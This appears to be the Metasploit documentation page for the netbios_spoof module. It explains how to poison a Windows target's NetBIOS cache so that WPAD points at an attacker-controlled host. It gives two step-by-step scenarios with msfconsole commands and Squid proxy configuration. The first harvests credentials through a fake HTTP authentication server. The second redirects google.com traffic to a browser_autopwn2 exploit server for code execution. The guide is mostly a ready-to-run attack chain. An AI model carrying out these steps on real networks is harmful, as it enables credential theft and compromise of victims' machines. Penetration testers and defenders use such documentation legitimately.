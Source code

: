 netbios_spoof continuously spams NetBIOS responses to a target for given hostname, causing the
target to cache a malicious address for this name. By default, the module will attempt to poison
WPAD, forcing the target system to communicate with a fake server that can be leveraged to steal
sensitive information, or obtain arbitrary code execution.

## Vulnerable Application

Windows is the most ideal target because it supports WPAD by default.

## Options

**NBADDR**

The address that the NetBIOS name (NBNAME) should resolve to.

**NBNAME**

The NetBIOS name to spoof a reply for.

**PPSRATE**

The rate at which to send NetBIOS replies.

## Scenarios

**Credential Collection Attack Using Targeted NetBIOS Spoofing:**

The following example uses http_basic, but other modules (such as http_ntlm) also applies.

Step 1: Start the first Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/server/capture/http_basic```
3. ```set REALM google.com```
4. ```set URIPATH /```
5. ```run```

Step 2: Start the second Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/admin/netbios/netbios_spoof```
3. ```set NBADDR [IP to fake HTTP auth server]```
4. ```set PPSRATE 30000```
5. ```set RHOST [Target Host]```
6. ```run```

Step 3: On the victim machine:

1. Make sure IE automatically detects settings (under LAN settings)
2. Start IE, as soon as it opens, IE should try to authenticate.

If the spoofed name has already been cached, you can do this to flush. And then next time IE will
be asked for credentials again.

```
ipconfig /flushdns
```

**Arbitrary Code Execution Using Targeted NetBIOS Spoofing:**

The following example will spoof WPAD and causes google.com to redirect to an exploit server.

Step 1: Start the first Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/server/browser_autopwn2```
3. ```set SRVPORT 8181```
4. ```run```

Remember the BrowserAutoPwn URL, you will need this info for the proxy configuration file.

Step 2: Install [Squid](http://www.squid-cache.org/) Proxy server (or [SquidMan](http://squidman.net/squidman/) if you use OS X), and edit the configuration file:

First, uncomment these settings if they are found in the file:

* http_access deny all
* http_access deny !Safe_ports
* http_access deny CONNECT !SSL_ports
* http_access deny to_localhost
* http_access deny all
* always_direct deny all

Second, add the following (make sure the change MyNetwork setting, and update the BrowserAutoPwn
URL field:

```
acl MyNetwork src 192.168.1.0/24
acl BLKSite dstdomain .google.com
deny_info [BrowserAutoPwn URL] all
http_reply_access deny BLKSite all
http_access allow MyNetwork
```

Step 3: Start the second Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/server/wpad```
3. ```set PROXY [Proxy IP]```
4. ```set PROXYPORT 8080```
5. ```run```

Step 4: Start the third Metasploit instance:

1. ```rvmsudo ./msfconsole -q```
2. ```use auxiliary/admin/netbios/netbios_spoof```
3. ```set NBADDR [IP to fake HTTP auth server]```
4. ```set PPSRATE 30000```
5. ```set RHOST [Target Host]```
6. ```run```

Step 5: On the victim machine:

1. Make sure IE automatically detects settings (under LAN settings)
2. Start IE
3. Go to google.com, IE should end up loading the exploit server.

If the spoofed name has already been cached, you can do this to flush.

```
ipconfig /flushdns
```

